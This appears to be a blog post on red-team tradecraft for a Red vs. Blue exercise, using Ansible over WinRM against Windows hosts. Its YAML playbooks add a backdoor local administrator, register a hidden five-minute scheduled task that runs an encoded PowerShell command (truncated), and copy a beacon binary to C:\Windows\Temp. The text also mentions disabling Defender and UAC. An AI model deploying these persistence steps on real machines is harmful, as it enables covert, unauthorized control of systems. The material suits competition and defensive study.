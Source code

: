 I drew lots of inspiration from [CptOfEvilMinions's GitHub repo](https://github.com/CptOfEvilMinions/BlogProjects/tree/main/red_team_series/ansible_initial_access),
as well as his [blog post](https://holdmybeersecurity.com/2019/02/26/tales-of-a-red-teamer-deploying-shenanigans-to-windows-with-ansible/),
where he talked about some of the setup he does with Ansible for his version of Red vs. Blue.

One of the ways we get initial access into machines in Red vs. Blue is through Psexec or WinRM using
default credentials (at least for Windows), and usually those default credentials land us in a
high-privileged user. Having elevated permissions on Windows grants us multiple ways to establish
persistence, as as creating a new Domain Admin or creating scheduled tasks, but also allows us to
weaken systems such as disabling Defender or UAC.

Performing those actions repeatedly across multiple teams couldn't be easier when using Ansible.

Conveniently as well, Ansible leverages WinRM to connect to Windows hosts and provides modules for
modules like creating new users or scheduled tasks. Here's an example:

```yaml
  ---
  - name: Create a new local Administrator
    win_shell: |
      net user niko Password123! /add
      net localgroup Administrators niko /add
  ignore_errors: true

  - name: Create scheduled task
    win_scheduled_task:
      name: 'Updater'
      actions:
      - path: powershell.exe
        arguments: "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHc..."
      triggers:
      - type: registration # when task is registered, run every 5 ninutes
        repetition:
          interval: PT5M
    ignore_errors: true
```

We can run basically any command we want with the `win_command` module:

```yaml
---
- name: Run whatever command
  win_command: whoami /all
```

If we wanted to transfer our beacon from local to remote, we can use the `win_copy` module:

```yaml
- name: Deliver binary
  win_copy:
    src: beacon_x64.exe
    dest: 'C:\Windows\Temp'
```
